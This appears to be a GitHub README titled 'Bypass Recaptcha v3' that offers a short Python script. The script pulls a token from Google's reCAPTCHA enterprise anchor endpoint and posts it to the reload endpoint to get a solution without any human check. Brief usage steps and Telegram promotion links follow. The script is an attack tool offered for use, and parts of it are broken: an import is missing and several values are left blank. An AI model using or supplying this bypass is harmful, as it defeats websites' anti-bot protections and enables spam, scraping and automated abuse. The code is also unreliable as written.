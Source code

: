 <h1>Bypass Recaptcha v3</h1>
<h2> fully explained </h2>

```python
import requests
params = {
    'ar': '1',
    'k': #take it form anchor,
    'co': # take from anchor,
    'hl': 'en',
    'v': 'EGbODne6buzpTnWrrBprcfAY',
    'size': 'invisible',# the type of recaptcha
    'cb': # from anchor,
}

response = requests.get('https://www.google.com/recaptcha/enterprise/anchor', params=params);token = re.search(r'id="recaptcha-token" value="([^"]+)"', response.text).group(1);reloa_url = "https://www.google.com/recaptcha/enterprise/reload?k=replace this"

reload_data = {
    "v":"EGbODne6buzpTnWrrBprcfAY", # the version of captcha 
    "reason":"q",
    "c":token,# the token


}
cap = requests.post(url=reloa_url,data=reload_data);recaptcha_solution = re.findall(r'rresp","(.+?)"', cap.text)
```
<h3>
First you need to capture anchor request ( use reqable - burp - etc.. )
put the params in empty values 
then the reload url gets the token from the anchor url and get the hidden input value 
that's all 🗣️</h3>
<h1>
  follow us on telegram 
  https://t.me/+Rf15q_5GzZ40M2Jk

  my account 
  https://t.me/assemblyexe
</h1>
<p>if something went wrong in anchor just but some cookies </p>
